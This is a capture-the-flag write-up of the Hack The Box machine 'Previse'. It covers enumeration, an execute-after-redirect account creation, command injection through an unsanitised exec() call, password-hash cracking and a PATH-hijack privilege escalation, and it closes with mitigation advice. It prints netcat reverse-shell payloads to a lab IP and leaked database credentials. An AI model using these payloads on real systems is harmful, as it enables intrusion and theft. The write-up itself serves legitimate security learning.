

# Previse Write-up (English Version)

This is my write-up about **Previse** which is an active Linux box on **Hack The Box** having the IP Address `10.10.11.104`.<br>
I really had fun completing this box and as you will see that we can't always blindly trust our web browsers.<br><br>


## Target Enumeration

### Nmap Initial Scan
---

First of all, my first step to tackle this box was to do an initial Nmap scan in order to reveal all services running on it.<br>
I personally often run the `nmap -sSVC -p- [IP_ADDRESS] -oA [OUTPUT_FILE] ` command on Nmap as my initial step.<br>
I will go over and briefly explain what these different switchs among the command does.<br>
Take note that `-sSVC` is a shortcut for these following switchs `-sS -sC -sV`.<br>

- -sS : Stands for 'Syn Scan', which is basically less noisy than a full `TCP connect()` scan. The advantage of this scan is that it doesn't fully connect to the target, which can be useful to avoid having our IP address logged onto a specific service. <br>Running Nmap with this flag will require us to run the command as root.

- -sV : Stands for 'Service Scan'. It is basically fetching the banner of the service on the open port in order to get more information about the service running on it.

- -sC : Is the equivalent of -script=default, which runs the default NSE script from Nmap on our target.

- -p- : Tells Nmap to scan all 65,535 ports on the target machine.

- -oA : Specifies that Nmap should write all of its output in 3 different formats: XML, Grepable and Nmap output type

So now that we know those details, let's run `sudo nmap -sSVC -p- 10.10.11.104 -oA nmap/nmap_scan.log` on the target machine. <br>

```
└─$ sudo nmap -sSVC -p- 10.10.11.104 -oA nmap/nmap_scan.log
[sudo] password for op:
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-17 01:04 EDT
Nmap scan report for 10.10.11.104
Host is up (0.091s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 53:ed:44:40:11:6e:8b:da:69:85:79:c0:81:f2:3a:12 (RSA)
|   256 bc:54:20:ac:17:23:bb:50:20:f4:e1:6e:62:0f:01:b5 (ECDSA)
|_  256 33:c1:89:ea:59:73:b1:78:84:38:a4:21:10:0c:91:d8 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-title: Previse Login
|_Requested resource was login.php
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 124.41 seconds

```

### File and directory fuzzing with FFUF
---

After the Nmap scan, I decided to do some file and directory *fuzzing* with **FFUF**
```
┌──(op㉿kali)-[~/htb/previse]
└─$ ffuf -u http://10.10.11.104/FUZZ -w /usr/share/wordlists/dirb/big.txt -c -t 50 -mc 200,403,301,302 -e .txt,.php 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.11.104/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/big.txt
 :: Extensions       : .txt .php 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 50
 :: Matcher          : Response status: 200,403,301,302
________________________________________________

.htaccess               [Status: 403, Size: 277, Words: 20, Lines: 10]
.htaccess.php           [Status: 403, Size: 277, Words: 20, Lines: 10]
.htaccess.txt           [Status: 403, Size: 277, Words: 20, Lines: 10]
.htpasswd.txt           [Status: 403, Size: 277, Words: 20, Lines: 10]
.htpasswd               [Status: 403, Size: 277, Words: 20, Lines: 10]
.htpasswd.php           [Status: 403, Size: 277, Words: 20, Lines: 10]
accounts.php            [Status: 302, Size: 3994, Words: 1096, Lines: 94]
config.php              [Status: 200, Size: 0, Words: 1, Lines: 1]
css                     [Status: 301, Size: 310, Words: 20, Lines: 10]
download.php            [Status: 302, Size: 0, Words: 1, Lines: 1]
favicon.ico             [Status: 200, Size: 15406, Words: 15, Lines: 10]
files.php               [Status: 302, Size: 4914, Words: 1531, Lines: 113]
footer.php              [Status: 200, Size: 217, Words: 10, Lines: 6]
header.php              [Status: 200, Size: 980, Words: 183, Lines: 21]
index.php               [Status: 302, Size: 2801, Words: 737, Lines: 72]
js                      [Status: 301, Size: 309, Words: 20, Lines: 10]
login.php               [Status: 200, Size: 2224, Words: 486, Lines: 54]
logout.php              [Status: 302, Size: 0, Words: 1, Lines: 1]
logs.php                [Status: 302, Size: 0, Words: 1, Lines: 1]
nav.php                 [Status: 200, Size: 1248, Words: 462, Lines: 32]
server-status           [Status: 403, Size: 277, Words: 20, Lines: 10]
status.php              [Status: 302, Size: 2968, Words: 749, Lines: 75]
:: Progress: [61407/61407] :: Job [1/1] :: 552 req/sec :: Duration: [0:01:53] :: Errors: 0 ::

```
When **FFUF** finished fuzzing the website, I opened up my browser and start visiting several pages<br>
until I found `nav.php` which could be practical to navigate on the website or discover some other file that our **FFUF** didn't pick up.
<br>

 <br>
 <br>

### Other file found in nav .php 
---

- file_logs.php

<br>

There was also the `config.php` file that sounded quite interesting, but after visiting it, I was welcomed with a blank page,
<br>
meaning that whatever was in that file wasn't rendered by our browser. So I continued browsing until I clicked on `/accounts.php` which
redirected us to `login.php`.
<br>
In fact they were several pages doing the same thing. All redirecting us to `login.php`. 
<br>

 
<br>

I then opened `Burp-suite` to catch the request `GET /accounts.php` made to the web server, to see what it did more specifically.
<br>
Once the request intercepted in the `Proxy` tab, I pressed `CTRL + R` to send the request in the `Repeater` tab in order to see the output of the response.

## Gaining access to the website

After reading the HTML output of the `/accounts.php`, I realized that we could send a `POST` request to `/accounts` in order to create a new user for the website.
<br>
The only parameter that we would need to supply will be those 3 inputs in the form (as seen in the screenshot below): 
- username
- password
- confirm 

So I then decided to give it a shot and create my own user. 
<br>

### Create User - POST /accounts .php
---

 
<br>

```
POST /accounts.php HTTP/1.1
Host: 10.10.11.104
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.11.104/login.php
DNT: 1
Connection: close
Cookie: PHPSESSID=[YOUR_COOKIE]
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Length: 49
Content-Type: application/x-www-form-urlencoded

username=pwned&password=pwned&confirm=pwned
```
I then came back to `login.php` to try and login as my newly created user `pwned` with password `pwned`.
<br>

 
<br>

The newly created credentials worked and we could now access `index.php` which was previously redirecting us to `login.php`.
<br>

 <br>

### Download siteBackup.zip
---
By browsing on the `/files.php` page, we could see an interesting file named `siteBackup.zip`, so I decided to download it
and analyze it on my local machine. 
<br>

 
<br>

 
<br>


### Backup - config .php
---

Here in `config.php` we got the credentials for the local `MySQL` server that might come in handy later on.

```
<?php

function connectDB(){
    $host = 'localhost';
    $user = 'root';
    $passwd = 'mySQL_p@ssw0rd!:)';
    $db = 'previse';
    $mycon = new mysqli($host, $user, $passwd, $db);
    return $mycon;
}

?>

```

### Backup - logs .php
---

This file olds some interesting detail after some analysis.<br>
We can see that the `PHP` script here is executing the system command with the `exec()` function which takes a `POST` variable as argument.
We can have control over that variable since it is unsanitized, so maybe we can use it to break the code and have som RCE (Remote Code Execution) going on

```
<?php
session_start();
if (!isset($_SESSION['user'])) {
    header('Location: login.php');
    exit;
}
?>

<?php
if (!$_SERVER['REQUEST_METHOD'] == 'POST') {
    header('Location: login.php');
    exit;
}

/////////////////////////////////////////////////////////////////////////////////////
//I tried really hard to parse the log delims in PHP, but python was SO MUCH EASIER//
/////////////////////////////////////////////////////////////////////////////////////

$output = exec("/usr/bin/python /opt/scripts/log_process.py {$_POST['delim']}");
echo $output;

$filepath = "/var/www/out.log";
$filename = "out.log";    

if(file_exists($filepath)) {
    header('Content-Description: File Transfer');
    header('Content-Type: application/octet-stream');
    header('Content-Disposition: attachment; filename="'.basename($filepath).'"');
    header('Expires: 0');
    header('Cache-Control: must-revalidate');
    header('Pragma: public');
    header('Content-Length: ' . filesize($filepath));
    ob_clean(); // Discard data in the output buffer
    flush(); // Flush system headers
    readfile($filepath);
    die();
} else {
    http_response_code(404);
    die();
} 
?>
```
Here we can see the following line executed by `PHP` : `$output = exec("/usr/bin/python /opt/scripts/log_process.py {$_POST['delim']}");` <br>
Our delimiter is being concatenated directly in the `exec()` function and passed as an argument to the `Python` script above.

The trick here is that we can fool the `exec()` function by adding `;` to the end of the argument and add more bash commands in order for `exec()`
to execute them. At that point, I was mostly thinking about adding a reverse shell right in the `$_POST['delim']` variable like so : 

`$_POST['delim']` =  `space;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.18 4444 >/tmp/f` <br>

### Getting a Reverse Shell - POST /logs .php
---

So now let's try this within Burp by capturing the `POST` request to `/logs.php` by clicking the `Submit` button.<br>

 <br>
 <br>

```
POST /logs.php HTTP/1.1
Host: 10.10.11.104
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 93
Origin: http://10.10.11.104
DNT: 1
Connection: close
Referer: http://10.10.11.104/file_logs.php
Cookie: PHPSESSID=[YOUR_COOKIE]
Upgrade-Insecure-Requests: 1
cd ..

delim=comma;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.18 4444 >/tmp/f
```
And let's start a Ncat listener on port 4444 to catch the reverse shell if it works. 
<br>

 
<br>

Don't forget to highlight everything after `delim=` and hit `CTRL + U` to url encode the payload sent to the `delim` parameter.
<br>

 
<br>

So the payload worked and we got a shell back, we are in!
<br>

 
<br>

## Foothold as www-data

The first thing that I like to do personally when I gain foothold over a machine, is trying to check the content of `/etc/passwd` <br>
and take note of it, since it can be useful to know which users exist on the targeted machine.<br>

 
<br>

Here we have 3 interesting users, `root` and `m4lwhere` have both access to `/bin/bash` and we also have a `mysql` user which probably means that `MySQL` is installed locally here.<br>
```
root:x:0:0:root:/root:/bin/bash
m4lwhere:x:1000:1000:m4lwhere:/home/m4lwhere:/bin/bash
mysql:x:111:114:MySQL SERVER,,,:/nonexistent:/bin/false
```
So then I thought that I should focus with `MySQL` since we already have some credentials that we have found in the `siteBackup.zip` archive in the `config.php` file.<br>
As we can see in the screenshot below, we successfully logged in the `MySQL` with the `root` credentials found.<br>

 <br>

### Website - User credentials
---

Nice we have retrieved hashes of the website's users. We already know that we have a `m4lwhere` user on this machine, so let's grab his hash and crack it with `John The Ripper`.<br>
```
mysql> SELECT * FROM accounts;
+----+----------+------------------------------------+---------------------+
| id | username | password                           | created_at          |
+----+----------+------------------------------------+---------------------+
|  1 | m4lwhere | $1$🧂llol$DQpmdvnb7EeuO6UaqRItf. | 2021-05-27 18:18:36 |
|  2 | pwned    | $1$🧂llol$ZvsHElKwkYSvBJddgv1.81 | 2021-08-18 21:42:16 |
+----+----------+------------------------------------+---------------------+
2 rows in set (0.00 sec)

```
### Cracking M4lwhere's Hash - John The Ripper
---

First, let's create a file that will hold our hash that we want to be cracking with John.
Open it with the editor of your choice and add `$1$🧂llol$DQpmdvnb7EeuO6UaqRItf.` in it and save it.<br>

```
┌──(op㉿kali)-[~/htb/previse]
└─$ touch hash
```
Now we might be able to crack it with John the Ripper. I chose to crack the password with `rockyou.txt` but it might also work with another list. <br>
I first let John try to auto-detect the hash format by itself, but like we can see in the first output bellow, John is warning us that <br>
it detected 2 possible hash type `md5crypt` and `md5crypt-long` and it is suggesting us to use `--format=md5crypt-long` to force loading this hash type.<br>
After the first command failing, I decided to add `--format=md5crypt-long` to the command.

```
┌──(op㉿kali)-[~/htb/previse]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hash                                                                                               255 ⨯
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:01:01 DONE (2021-08-18 20:28) 0g/s 229717p/s 229717c/s 229717C/s !!!0mc3t..*7¡Vamos!
Session completed
                                                                                                                                                              
┌──(op㉿kali)-[~/htb/previse]
└─$ john --show hash                                     
0 password hashes cracked, 1 left
                                                                                                                                                              
┌──(op㉿kali)-[~/htb/previse]
└─$ john --format=md5crypt-long --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt-long, crypt(3) $1$ (and variants) [MD5 32/64])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
ilovecody112235! (?)
1g 0:00:02:45 DONE (2021-08-18 20:37) 0.006043g/s 44803p/s 44803c/s 44803C/s ilovecokey..ilovecody..
Use the "--show" option to display all of the cracked passwords reliably
Session completed
                      
```
## Lateral Movement - Login as m4lwhere

From this point we could try to use the same credentials used by m4lwhere on the website to log in his Linux machine's account. 
<br>

 \
<br>

### Checking User Privilege 
---
Now that we are logged in as m4lwhere, we should check if there is any way that we could escalate our privilege to `root`.<br>
Usually the first thing that I am checking is what file the user we are logged in as can run as `root` with `sudo`.
<br>


<br>

Interesting, there seems to be a `shell` script that we can run with `sudo`.
Let's check what this script is all about and if there is a way to elevate our privilege with it.

```
m4lwhere@previse:/opt/scripts$ cat access_backup.sh 
#!/bin/bash

# We always make sure to store logs, we take security SERIOUSLY here

# I know I shouldnt run this as root but I cant figure it out programmatically on my account
# This is configured to run with cron, added to sudo so I can run as needed - we'll fix it later when there's time

gzip -c /var/log/apache2/access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_access.gz
gzip -c /var/www/file_access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_file_access.gz
m4lwhere@previse:/opt/scripts$ ls -la
total 16
drwxr-xr-x 2 root     root     4096 Jul 26 18:41 .
drwxr-xr-x 3 root     root     4096 Jul 26 18:41 ..
-rwxr-xr-x 1 root     root      486 Jun  6 12:49 access_backup.sh
-rw-r--r-- 1 m4lwhere m4lwhere  320 Jun  6 12:25 log_process.py

```
## Privilege Escalation - Exploiting access_backup.sh

Well, we might have some luck here, it looks like the script is called `gzip` to do some backup on web server's logs. <br>
The thing here is that the script only calls `gzip` without the full path of the program. So we might be able to create a malicious version of `gzip` <br>
in the `/tmp` directory (since we have read/write/execute rights there), then adding the `/tmp` directory to the beginning of `$PATH` variable, which would help us `hijacking` the `gzip` call and execute our version of it instead of the real one.

 <br>

### Reverse Shell Payload - Vim
---
This is the payload that I wrote in `gzip` with the `Vim` editor.
Everyone knows that `Vim` can be tedious if you don't know some basic commands haha. <br>
First of press `I` on your keyboard, this will put `Vim` in `INSERT MODE`, from this mode you can start to edit the file.<br>

I then added the following lines to the file : 

```
!#/bin/bash

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.18 4443 >/tmp/
```
 <br>

And after having finished editing the file, I pressed `ESC` on my keyboard to put `Vim` in the command mode and type the following command: `:wq`.<br>
`:wq` stand for write to file and quit.<br> 

After that we only needed to start up a Netcat listener on `Port 4443` before executing the `/opt/scripts/access_backup.sh`
<br>

 
<br>

Lastly, we need to launch the script with sudo privilege.
<br>
```
m4lwhere@previse:/tmp$ sudo /opt/scripts/access_backup.sh
```
And Voila! We got ourselves a reverse shell as root.
<br>


<br>

## Risk Mitigation


If it would have been a real life scenario, there are some ways we could have mitigated these attacks.<br>

### PHP Back-end
---
Here the developers who have built the back-end, should not have enforced `redirection` on restricted resources, they only should have configured the HTTP server
to return an `HTTP code 403` instead, which would have denied us to create a user in the first place.

### PHP File - logs. php
---
The mistake here, was adding unsanitized user input directly directly into an `exec()` function as an argument.<br> 
To prevent this, every user input should be sanitized verified more thoroughly.

### Bash Script - /opt/scripts/access_backup .sh
---
Here the script was :
- Added to the sudo file to be run as `root` for `m4lwhere` user.
- Calling the `gzip` utility by not using it's full path, which led us to hijack its name to execute our own code instead.
